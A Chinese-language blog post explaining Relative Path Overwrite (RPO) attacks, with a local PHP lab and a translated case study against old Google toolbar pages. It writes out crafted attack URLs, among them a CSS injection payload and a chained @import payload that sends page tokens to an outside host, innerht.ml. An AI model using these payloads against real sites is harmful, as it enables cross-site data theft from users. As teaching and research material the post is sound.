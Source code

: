 ```yaml
---
layout: post
title:  "RPO相对路径覆盖的研究"
categories: 漏洞
tags: 渗透测试 渗透 漏洞
author: 柠枫
---
```




* content
{:toc}








## 什么是RPO

RPO (Relative Path Overwrite)相对路径覆盖，作为一种相对新型的攻击方式,由 Gareth Heyes在2014年首次提出，利用的是nginx服务器、配置错误的Apache服务器和浏览器之间对URL解析出现的差异，并借助文件中包含的相对路径的css或者js造成跨目录读取css或者js，甚至可以将本身不是css或者js的页面当做css或者js解析，从而触发xss等进一步的攻击手段  

## 什么情况会触发

触发这个漏洞有两个基本的前提:

> 1. Apache 配置错误导致AllowEncodedSlashes这个选项开启（对Apache来说默认情况下 AllowEncodedSlashes 这个选项是关闭的），或者nginx服务器  
> 2. 存在相对路径的js或者css的引用  

那么问题来了，为什么Apache不行Nginx可以？  
用的phpstudy 本地部署了apache.php和nginx.php  和一个空的test目录 都是echo相应的服务器名  
![图片1.png](https://i.loli.net/2020/01/24/oCd5gcRNVqYstIk.png)  
我们首先来看看Apache怎么说：  
![图片2.png](https://i.loli.net/2020/01/24/oXGdPVHyL4NimA6.png)  
Apache直接就不认识..%2f 我的天，那接下来看看nginx怎么说吧   
![图片3.png](https://i.loli.net/2020/01/24/LPyurjGITMldo4m.png)  
可以看到nginx吧..%2f当成了../也就是跳转到上一级目录的nginx.php 看起来是这样：127.0.0.1/rpo/nginx.php
所以apache默认是没有这玩意的

## 实验

在rpo目录下创建一个index.php 是这样子的:  

```PHP4
<html>

        <head></head>

        <body>

            <script src="a.js" charset="UTF-8"></script>

        </body>

    </html>

    <?php
	header("Content-type: text/html; charset=gb2312");
    echo "js 在test文件夹中";

?>
```

然后呢 test文件夹中有一个a.js 它只是一个普普通通的弹窗 并没有神马亮点：  
alert(“读取文件成功！”)  
然后我们尝试访问127.0.0.1/rpo/test/..%2findex.php  
![图片4.png](https://i.loli.net/2020/01/24/x2nMchZzVfOe4PC.png)  
果然 他成功弹窗了a.js的内容，那这时候就会有童鞋问了 我直接访问不行吗？  
![图片5.png](https://i.loli.net/2020/01/24/Ef43epuYOI61lMD.png)  
很遗憾并不行 咋肥四呢？这就是相对路径覆盖的魅力了  
我们向服务器提交我们想请求的URL  
[http://localhost/RPO/test/..%2findex.php](http://localhost/RPO/test/..%2findex.php)  
聪明的服务器会把..%2f自动进行URL解码，所以实际上服务器端看到你请求的URL是下面的样子：  
http://localhost/RPO/test/../index.php  
我们知道../ 在URL中会被理解成上一层目录，所以服务器实际上认为你访问的是下面的URL，并把index.php的内容返回给天真的浏览器  
http://localhost/RPO/index.php  
接下来浏览器的工作就是根据URL的路径处理index.php中引用的使用相对地址的脚本，可是万万没想到，浏览器它并不认识..%2f！！！于是URL在它眼里依旧是那可爱的样子：  
http://localhost/RPO/test/..%2findex.php  
此时无知的浏览器已经把..%2findex.php当成了一个文件，可它还是严格按照脚本的要求加载当前目录下的a.js文件，而对它来说现在的当前目录已变成了test，自然而然test（同目录）下的a.js就被成功加载了（同目录下嘛，嘿嘿你懂的！）  
那此时又有小伙伴问了 那我们做不到可控人家网站的js呀！是的 我们是无法直接控制人家服务器的js，但rpo另一个特点是，我们可以将服务器返回的内容按照js脚本的方式解析！而且因为是外部引用js 我们甚至都不需要标签  
这里我就不多赘述，给大家奉上一篇已经过翻译和标注的国外文章，希望各位能加深理解  

## 发现RPO

目前我们可以知道的RPO利用例子是James的PRSSI ，它依赖于CSS解析器容忍在quirks mode中的非法语法（也称为松散解析），所以查找RPO漏洞的第一步就是检查页面的是否有正确的doctype    
我找到一个目标：  
http://www.google.com/tools/toolbar/buttons/apis/howto_guide.html  
<html>  <head>  <title>Google Toolbar API - Guide to Making Custom Buttons</title>  <link href="../../styles.css" rel="stylesheet" type="text/css" />  
第二步涉及到服务器如何解析路径。对于浏览器来说，目录之间被“/”隔开。对于服务器来说，这并不意味着一定是目录，比如说JSP接收参数时会将“;”后的内容全部视为参数 (e.g. http://example.com/path;/notpath)，这种情况下浏览器只会认为/patn;/notpath依旧是目录  
在目标中我找到可以利用RPO的地方，那里似乎有一个代理处理请求并解码路径中的内容，然后将其发送到真正的服务器。 这允许我们在路径中用％2f替换斜杠:  
http://www.google.com/tools/toolbar/buttons/apis%2fhowto_guide.html  
![图片6.png](https://i.loli.net/2020/01/24/atV8ZkMiE3PdGep.png)  

> Server:  
> **/tools/toolbar/buttons/apis/** howto_guide.html  
> Browser:  
> **/tools/toolbar/buttons/** apis%2fhowto_guide.html   
> Imported stylesheet：   
> **/tools/** style.css   
> （加粗的表示为基本路径）  

现在浏览器认为基本路径是/tools/toolbar/buttons/而不是/tools/toolbar/buttons/apis/，因此对../../style.css的引用会多跳一个目录  
我们还能伪造目录，比如我们想加载的css文件在/tools/fake/styles.css：http://www.google.com/tools/fake/..%2ftoolbar/buttons/apis%2fhowto_guide.html  

> Server：   
> **/tools/ (fake/../抵消) toolbar/buttons/apis/** howto_guide.html   
> Browser：   
> **/tools/fake/..%2ftoolbar/buttons/** apis%2fhowto_guide.html   
> Imported stylesheet：   
> **/tools/fake/**..%2ftoolbar/buttons/../../style.css   

这里我们添加了二个虚拟目录：fake和..%2f，这样在server角度下就互相抵消了，然后浏览器认为fake和..%2ftoolbar为目录。理论上，我们可以在根目录下导入任何样式表（www.google.com/\*/styles.css），不幸的是这个代理只能处理（www.google.com/tools/\*/styles.css），不是tools目录中的css文件就无法导入  
除了按钮Gallery 外都是些静态元素，http://www.google.com/tools/toolbar/buttons/gallery会重定向到http://www.google.com/gadgets/directory?synd=toolbar&frontpage=1  
按钮Gallery有一个q参数，可以制作RPO的payload：http://www.google.com/gadgets/directory?synd=toolbar&frontpage=1&q=%0a{}\*{background:red}  
效果如图所示:  
![图片7.png](https://i.loli.net/2020/01/24/qzEIA61wmiQHbC8.png)  
现在要做的就是如何以CSS方式来加载该页面。一种方法就是重定向处理查询字符串，例如，http://www.google.com/tools/toolbar/buttons/gallery?foo=bar会将我们重定向到http://www.google.com/gadgets/directory?synd=toolbar&frontpage=1&foo=bar， 查询的字符串会附加上  
最后一步就是构造查询字符串了：http://www.google.com/tools/toolbar/buttons%2fgallery%3fq%3d%250a%257B%257D*%257Bbackground%253Ared%257D/..%2f/apis/howto_guide.html  

> Server:   
> **/tools/toolbar/buttons/** (gallery?q=%0a{}\*{background:red}/../抵消) /apis/ howto_guide.html   
> Browser:   
> **/tools/toolbar/buttons%2fgallery%3fq%3d%250a%257B%257D*%257Bbackground%253Ared%257D/..%2f/apis/** howto_guide.html   
> Imported stylesheet:   
> **/tools/toolbar/buttons%2fgallery%3fq%3d%250a%257B%257D*%257Bbackground%253Ared%257D** /..%2f/apis/../../style.css   
> ⇓   
> /tools/toolbar/buttons/gallery?**q=%0a{}*{background:red}/style.css**   
> ⇓   
> /gadgets/directory?synd=toolbar&frontpage=1&**q=%0a{}*{background:red}/style.css**  

![图片8.png](https://i.loli.net/2020/01/24/VQ1N957F8vmzMtq.png)  

看成功了，满页面都是红色。我们还能使用expression(alert(document.domain))，在IE8可以成功弹窗，但是在IE9却失败了。那是因为谷歌的defense-in-depth防止按钮以css方式加载（X-Content-Type-Options:nosniff 选项来关闭IE的文档类型自动判断功能）  
突然间所有的努力都是徒劳的，因为Google漏洞奖励计划（VRP）规则清楚地表明：In particular, we exclude Internet Explorer prior to version 9  

## Chaining Gadgets

嗯，如果我们使用RPO窃取其他页面上的秘密呢？ CSS的另一个有趣的事情是，在quirks mode下，只要它们在同一个起源，那么松散解析就适用于所有导入的样式表。这样就开启了一个新的可能性，因为我们可以使用Button Gallery作为小工具将https://www.google.com/\*上的任何网页导入为样式表，如果导入的“样式表”包含隐私数据和注入点，我们可以 尝试通过注入CSS魔法来窃取它  

这样的页面要求是：  
> * 注入点需要在隐私数据之前  
> * 注入点需要允许％0a，％0c和％0d中的任何一个，以便可以从错误的状态恢复解析器状态  
> * 隐私数据及其周围不能包含换行符  

我花了些时间找到了符合的页面：http://www.google.com/search?nord=1&**q={}%0a@import”//innerht.ml?**  
首先要注意的是，该页面针对速度进行了优化，因此HTML被压缩过，只有少数换行符。可以看到有一些随机生成的token。 我不知道他们代表什么，但是能够窃取他们应该足以证明这次攻击确实会渗透到数据中。截图中突出显示的部分是css魔术发生的地方：我们使用@import“// innerht.ml？创建import规则，然后直到双引号的所有内容将作为受控URL的一部分使用，最后浏览器会向import“URL”发出请求，我们就可以获取到数据内容  
http://www.google.com/tools/toolbar/buttons%2fgallery%3fq%3d%250a%257B%257D%2540import%2527%252Fsearch%253Fnord%253D1%2526q%253D%257B%257D%25250a%2540import%252527%252F%252Finnerht.ml%253F%2522/..%2f/apis/howto_guide.html  
